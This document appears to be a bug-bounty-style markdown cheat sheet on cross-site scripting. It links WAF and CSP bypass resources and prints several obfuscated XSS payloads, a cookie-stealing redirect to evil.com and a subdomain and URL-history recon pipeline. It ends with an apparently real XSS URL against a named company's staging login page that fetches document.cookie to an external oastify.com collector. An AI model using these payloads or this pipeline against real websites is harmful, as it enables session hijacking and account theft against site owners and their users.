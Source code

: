 
---

### **XSS (Cross-Site Scripting) Resources**

#### **1. WAF Bypass & XSS Cheat Sheets**
- **Awesome WAF**:
  ```bash
  https://github.com/0xInfection/Awesome-WAF
  ```
- **Ghetto Bypass**:
  ```bash
  https://d3adend.org/xss/ghettoBypass
  ```
- **Browser's XSS Filter Bypass Cheat Sheet**:
  ```bash
  https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet
  ```
- **Angular Bypass**:
  ```bash
  https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet#angularの利用
  ```

#### **2. XSS Techniques**
- **Bypass Cookies blocked**
  ```bash
  </title><svg/onload="az3m=%27alert(document.co%27; az3m1=%27okie)%27;Az3mEasilyBypassXSS=az3m.concat(az3m1);eval(Az3mEasilyBypassXSS);">
  ```
- **HTTP Only Bypass**:
  ```bash
  location.href = "evil.com?c='escape(document.cookie)'"
  ```
- **Meta Refresh**:
  ```bash
  <meta http-equiv="refresh" content="0; url=http://example.com/">
  ```
- **Method Spoofing**:
  ```bash
  POST /endpoint
  Host: example.com
  _method=POST&data[user][username]=xsspayload
  ```
- **SameSite Bypass**:
  ```bash
  https://hazanasec.github.io/2023-07-30-Samesite-bypass-method-override.md/
  ```
- **Script Source Bypass**:
  ```bash
  <script src=//14.rs>
  <script src=//ł.rip>
  ```
- **XSS Payload**:
  ```bash
  "><img/src='x'/onerror="parent['ale'+'rt'](parent['doc'+'ument']['cookie']);">
  ```
- **Using `eval`**:
  ```bash
  Use eval, but always make sure where to use + and where to use %2b.
  ```

#### **3. CSP (Content Security Policy)**
- **CSP Bypass**:
  ```bash
  https://www.notion.so/CSP-10615e0fe55e8064a661dcfb7c0ee992?pvs=21
  https://cspbypass.com/
  ```

#### **4. Additional Resources**
- **Medium Articles**:
  ```bash
  https://medium.com/@DrakenKun/how-i-was-able-to-find-4-cross-site-scripting-xss-on-vulnerability-disclosure-program-e2f39199ae16
  ```
- **Twitter Threads**:
  ```bash
  https://twitter.com/Botami143/status/1741363525568823385?t=Mh-SqOmunyxQyK7UhoQASQ&s=19
  ```
- **Hahwul's XSS Guide**:
  ```bash
  https://www.hahwul.com/cullinan/xss/?fbclid=IwAR1HX06q3yYwG73REvITzA7mshM0egPaGR0PzqbnzW25HE1h4XdPVrA1ZNY
  ```
- **WAF Bypass XSS Payloads**:
  ```bash
  https://github.com/gprime31/WAF-bypass-xss-payloads/tree/master?fbclid=IwAR3oBisE0veAu87f77xZVubYTTLa7k0bWKo7HTMprPgxfqm_-P2hKDAu2do
  ```
- **OWASP XSS Filter Evasion Cheat Sheet**:
  ```bash
  https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  ```
- **Zapstiko's XSS Payloads**:
  ```bash
  https://github.com/zapstiko/wordlists/blob/main/xss_payloads
  ```

#### **5. Advanced XSS Payloads**
- **Details Tag Exploit**:
  ```bash
  <dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x>
  ```

---

### **How to Use This Information**
1. **WAF Bypass**:
   - Use the provided cheat sheets and payloads to bypass Web Application Firewalls (WAFs).

2. **XSS Techniques**:
   - Experiment with different XSS payloads and techniques to find vulnerabilities in web applications.

3. **CSP Bypass**:
   - Study CSP bypass techniques to understand how to exploit Content Security Policy misconfigurations.

4. **Additional Resources**:
   - Refer to the provided links for more in-depth guides and examples of XSS exploitation.

---

```bash
Find subdomains.
subfinder -d domain -all | httpx -o subs1
subdominator -d domain  | httpx -o subs2

Merge all subs in one file
cat sub1 subs2|anew subs

Find history.
cat subs | wayback |anew xss-wayback
katana -list subs -o xss-katana
cat subs | gau --subs -o xss-gau

Sort all history in one file.
cat xss-wayback xss-katana xss-gau |anew xss.txt

Delete unnecessary extensions.
cat xss.txt |sort -u | grep "=" | egrep -iv ".(css|woff|woff2|txt|js|m4r|m4p|m4b|ipa|asa|pkg|crash|asf|asx|wax|wmv|wmx|avi|bmp|class|divx|doc|docx|exe|gif|gz|gzip|ico|jpg|jpeg|jpe|webp|json|mdb|mid|midi|mov|qt|mp3|m4a|mp4|m4v|mpeg|mpg|mpe|webm|mpp|_otf|odb|odc|odf|odg|odp|ods|odt|ogg|pdf|png|pot|pps|ppt|pptx|ra|ram|svg|svgz|swf|tar|tif|tiff|_ttf|wav|wma|wri|xla|xls|xlsx|xlt|xlw|zip)" | uro | httpx | anew xss

Run knoxnl against xss with both GET,POST methods.
knoxnl -i xss -X BOTH -s -o xssoutput.txt
```

```
https://app.staging.makeswift.com/login?next=javascript%3Afetch(%27https%3A%2F%2Flrg1wp93ejpjd16ko0rfja8zqqwhk88x.oastify.com%2Fsteal%3Fcookie%3D%27%2BencodeURIComponent(document.cookie))
![image](https://github.com/user-attachments/assets/d9588aa4-44c3-4ae6-ae9c-07731ae84d9d)

```


- https://www.hahwul.com/cullinan/xss/?fbclid=IwAR1HX06q3yYwG73REvITzA7mshM0egPaGR0PzqbnzW25HE1h4XdPVrA1ZNY
